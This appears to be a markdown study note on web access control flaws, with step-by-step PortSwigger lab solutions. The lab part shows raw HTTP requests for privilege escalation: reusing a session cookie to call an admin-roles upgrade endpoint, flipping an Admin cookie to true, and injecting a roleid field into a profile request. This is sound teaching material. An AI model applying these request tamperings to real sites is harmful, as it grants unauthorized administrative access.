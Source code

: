 ## Access control vulnerabilities
Access control (or authorization) is the application of constraints on who (or what) 
can perform attempted actions or access resources that they have requested. 
In the context of web applications, access control is dependent on authentication and session management: 

## 1. Parameter-based access control methods
Some applications determine the user's access rights or role at login, and then store this information in a user-controllable location,
such as a hidden field, cookie, or preset query string parameter. 
The application makes subsequent access control decisions based on the submitted value

## For Example

    https://insecure-website.com/login/home.jsp?admin=true
    https://insecure-website.com/login/home.jsp?role=1

This approach is fundamentally insecure because a user can simply modify the value and gain access to functionality to which they are not authorized,
such as administrative functions. 

## 2. Horizontal privilege escalation
Horizontal privilege escalation arises when a user is able to gain access to resources belonging to another user, instead of their own resources of that type. For example, if an employee should only be able to access their own employment and payroll records, but can in fact also access the records of other employees, then this is horizontal privilege escalation. 

 Horizontal privilege escalation attacks may use similar types of exploit methods to vertical privilege escalation. 
 ## For example
 a user might ordinarily access their own account page using a URL like the following: 

    https://insecure-website.com/myaccount?id=123
Now, if an attacker modifies the id parameter value to that of another user, then the attacker might gain access to another user's account page, with associated data and functions. 

## 3. Horizontal to vertical privilege escalation
Often, a horizontal privilege escalation attack can be turned into a vertical privilege escalation, by compromising a more privileged user.
For example, a horizontal escalation might allow an attacker to reset or capture the password belonging to another user.
If the attacker targets an administrative user and compromises their account, then they can gain administrative access and so perform vertical privilege escalation.

## For Example
an attacker might be able to gain access to another user's account page using the parameter tampering technique already described for horizontal privilege escalation:

    https://insecure-website.com/myaccount?id=456
    
If the target user is an application administrator, then the attacker will gain access to an administrative account page. This page might disclose the administrator's password or provide a means of changing it, or might provide direct access to privileged functionality. 
    
    
## LAB
 
 ## 1. STEP
  Asif Is Upgrade User 
  Login in the login page and Caputer The Request In Burp Repeter and  analyze the Request
    
    POST /admin-roles HTTP/1.1
    Host: acca1f871ff59314c0b1124d00580002.web-security-academy.net
    Cookie: session=dhb7aRHg7lEnRb2uRogyfXu2onwMp2jY
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 45
    Origin: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net
    Referer: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net/admin-roles
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    action=upgrade&confirmed=true&username=asif
    

 ## 2.STEP
 Khan Is Local user 
 Login in the login page and Caputer The Request In Burp Repeter and  analyze the Request 
 
     GET /my-account?id=khan HTTP/1.1
     Host: acca1f871ff59314c0b1124d00580002.web-security-academy.net
     Cookie: session=ai64aRHg7lEnRb2uadg95Xu2onw98v9f
     User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
     Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
     Accept-Language: en-US,en;q=0.5
     Accept-Encoding: gzip, deflate
     Referer: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net/my-account
     Upgrade-Insecure-Requests: 1
     Sec-Fetch-Dest: document
     Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

 
  ## 3.STEP 
  First some Changing Copy Local user Cookie: Session and past the Upgrade Request and Secand is Change the Nmae just Example 
  Upgrade user name is Asif to change and type khan and send the Request Server and Local user is Upgrade This vulnerabilities
  IS Access-control-vulnerabilities
 
    POST /admin-roles HTTP/1.1
    Host: acca1f871ff59314c0b1124d00580002.web-security-academy.net
    Cookie: session=dhb7aRHg7lEnRb2uRogyfXu2onwMp2jY
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 45
    Origin: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net
    Referer: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net/admin-roles
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    action=upgrade&confirmed=true&username=asif
    
 
 
 ## 1. User role controlled by request parameter
 
 In Burp Proxy, turn interception on and enable response interception
 Complete and submit the login page, and forward the resulting request in Burp.
 Observe that the response sets the cookie Admin=false. Change it to Admin=true. 
 Acess The directory
 
 
 ## 2. User role can be modified in user profile
 
 Request Sand to repeter 
 Observe that the response contains your role ID.
 Send the email submission request to Burp Repeater, add "roleid":2 into the JSON in the request body, and resend it. 
 Observe that the response shows your roleid has changed to 2.

    POST /my-account/change-email HTTP/1.1
Host: 0af600bd034d16ccc01622bd007500ff.web-security-academy.net
Cookie: session=BtwJhdFHvFMf80vO1cbyBAFzL6fR2Ybb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 37
Origin: https://0af600bd034d16ccc01622bd007500ff.web-security-academy.net
Referer: https://0af600bd034d16ccc01622bd007500ff.web-security-academy.net/my-account?id=wiener
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"email":"asif@khan.com","roleid":2}









